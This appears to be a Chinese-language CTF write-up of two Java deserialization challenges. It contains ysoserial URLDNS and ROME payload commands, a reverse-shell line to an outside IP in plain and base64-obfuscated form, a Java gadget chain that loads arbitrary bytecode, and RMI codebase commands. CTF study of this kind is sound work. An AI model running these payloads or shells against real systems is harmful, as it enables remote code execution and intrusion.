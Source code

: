 ```yaml
---
title: java题目
date: 2022-03-26 16:09:58
tags:
      - java
---
```




## [网鼎杯 2020 朱雀组]Think Java

<!--more-->

> 血的教训
>
> 千万不要用powershell使用ysoserial,生成的payload直接乱码呜呜



本题起初找不到入口,看的别人的wp做的,也学习到了很多东西

生成URLDNS payload

`java -jar ysoserial.jar URLDNS "http://3s8kl8.dnslog.cn" > url.bin`

按照其token规则进行编码

```python
import base64
file = open(r"F:\TOOLS\ser\url.bin","rb")
now = file.read()
ba = base64.b64encode(now)

print("Bearer "+ba.decode('unicode_escape'))
file.close()
```

在`/common/user/current`发送

![image-20220326161131867](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/image-20220326161131867.png)

dnslog收到请求

![image-20220326161147299](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/image-20220326161147299.png)

`bash -i >& /dev/tcp/121.40.113.226/5555 0>&1`反弹shell的命令要进行一次转换

![image-20220326162201101](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/image-20220326162201101.png)



接着生成反弹shell的反序列化字节码文件

`java -jar ysoserial.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNDAuMTEzLjIyNi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > shell.bin`

反弹shell尝试了两次才成功

## ezgaeget（东华杯）

本题是一道关于java反序列化的题目

题目有一个jar包,通过Java Decompiler打开,查看里面的类,发现一个类ToStringBean,它的toString方法不但能从字节码加载类,并且还能帮助类继续实例化,所以这就是代码执行的地方了,想办法将ClassByte换成恶意类的字节码即可

![image-20220318151601653](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/image-20220318151601653.png)

并且在IndexController这个Controller类中发现了能进行反序列化的地方

![image-20220318151834640](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/image-20220318151834640.png)

java中ObjectInputStream.readObject其实就是反序列化的方法



所以现在思路确定下来,首先构造恶意类,让其中的readObject可以调用参数的toString方法

```java
public static void main(String[] args) throws Exception{

        //首先通过字节码获取对应类的字节码
        byte[] bytes= Files.readAllBytes(Paths.get("E:\\javaSecurity\\cc\\target\\test-classes\\test.class"));
        ToStringBean toStringBean = new ToStringBean();
        Class<? extends ToStringBean> toStringBeanClass = toStringBean.getClass();
        Field classByte = toStringBeanClass.getDeclaredField("ClassByte");
        classByte.setAccessible(true);
        classByte.set(toStringBean,bytes);
        //现在代码执行的地方已经封装好了,接下来就是构造反序列化时候能调用toString,恰好BadAttributeValueExpException的readObject会调用toString

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        //此处有个坑,就是BadAttributeValueExpException的构造方法会先执行toString,所以通过反射在实例化后再次修改
        Class<? extends BadAttributeValueExpException> badAttributeValueExpExceptionClass = badAttributeValueExpException.getClass();
        Field val = badAttributeValueExpExceptionClass.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);
        //构造完成,接下来只需要构造base64编码的字节流
        
        ByteOutputStream byteOutputStream=new ByteOutputStream();
        ObjectOutputStream objectOutputStream=new ObjectOutputStream(byteOutputStream);
        objectOutputStream.writeUTF("gadgets");
        objectOutputStream.writeInt(2021);
        objectOutputStream.writeObject(badAttributeValueExpException);
        byte[] bytes1=byteOutputStream.toByteArray();
        
        System.out.println(Tools.base64Encode(bytes1));
       
    }
```

起初没有保证序列化之前的包名一致,导致无法正常反序列化,反序列化的时候必须保证反序列化的类所在的包名一样

还有一个坑点,就是base64在传的时候,记得先urlencode一次,防止将+当成空格去传,但是解码的时候又把空格当成base64来解码,所以会报`Illegal base64 character 20`错误

传入data为打印出的字符串,成功执行代码



`java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://121.40.113.226:5555/ RMIClient`



```
java -Djava.rmi.server.hostname=121.40.113.226 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy RemoteRMIServer

```

